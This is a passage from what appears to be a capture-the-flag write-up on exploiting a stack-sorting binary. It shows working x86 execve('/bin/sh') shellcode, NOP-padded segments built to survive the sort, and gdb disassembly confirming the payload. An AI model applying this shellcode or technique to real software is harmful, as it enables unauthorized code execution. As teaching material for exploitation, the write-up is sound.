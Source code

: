 The last thing we need to worry about is our shellcode, since we will need to know where it is on the stack to execute it, and we also need to make sure it stays intact and in the correct order after it is sorted. The way I accomplish this is by appending the `0x90` byte a certain amount of time to the front of certain parts of shellcode. This is because when executed `0x90` is the opcode for `NOP` which continues execution and doesn't affect our shellcode in any important way, and it will be evaluated as less than values starting with `0x804` so it won't affect the stack canary or what we did to write over the return address.

However when we insert the NOPs into our shellcode, we will have to rewite/recompile the shellcode. The reason for this, is because if we just insert NOPs into random places, there is a good chance we will insert a NOP in the middle of an instruction, which will change what the instruction does. Also note, the base shellcode I did not write. I grabbed it from `http://shell-storm.org/shellcode/files/shellcode-599.php` and modified it. Also I found that this website which is an online x86/x64 decompiler/compiler helped `https://defuse.ca/online-x86-assembler.htm`:

here is the shellcode before we modified it:
```
0:  6a 17                   push   0x17
2:  58                      pop    eax
3:  31 db                   xor    ebx,ebx
5:  cd 80                   int    0x80
7:  50                      push   eax
8:  68 2f 2f 73 68          push   0x68732f2f
d:  68 2f 62 69 6e          push   0x6e69622f
12: 89 e3                   mov    ebx,esp
14: 99                      cdq
15: 31 c9                   xor    ecx,ecx
17: b0 0b                   mov    al,0xb
19: cd 80                   int    0x80
```

This shellcode is `27` bytes. After we figure out how to split the individual commands up with `\x90`s in a way that the instructions will still execute properly, and after sorting the shellcode will be in the proper order, we get the following segments:

```
0x9101eb51e1f7c931:

0x90909068732f2f68:

0x9090406e69622f68:

0x900080cd0bb0e389:
```

keep in mind, because of how the data is stored, the last four bytes will be executed first. After a lot of trial and error, we see that this is our shellcode:

```
gdb-peda$ x/16i 0xffff7ca0
   0xffff7ca0:    xor    ecx,ecx
   0xffff7ca2:    mul    ecx
   0xffff7ca4:    push   ecx
   0xffff7ca5:    jmp    0xffff7ca8
   0xffff7ca7:    xchg   ecx,eax
   0xffff7ca8:    push   0x68732f2f
   0xffff7cad:    nop
   0xffff7cae:    nop
   0xffff7caf:    nop
   0xffff7cb0:    push   0x6e69622f
   0xffff7cb5:    inc    eax
   0xffff7cb6:    nop
   0xffff7cb7:    nop
   0xffff7cb8:    mov    ebx,esp
   0xffff7cba:    mov    al,0xb
   0xffff7cbc:    int    0x80
```
